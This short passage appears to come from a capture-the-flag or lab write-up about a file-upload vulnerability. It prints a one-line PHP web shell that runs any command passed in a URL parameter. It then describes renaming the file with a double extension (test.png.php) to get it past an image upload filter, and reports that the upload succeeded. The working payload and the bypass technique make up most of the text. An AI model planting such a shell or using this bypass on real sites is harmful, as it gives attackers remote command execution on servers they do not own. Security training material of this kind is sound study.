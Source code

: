 ```
<?php echo shell_exec($_GET['cmd']); ?>
```
> And modified the file name to test.png.php

![](./IMG/31.png)
> Success to upload 
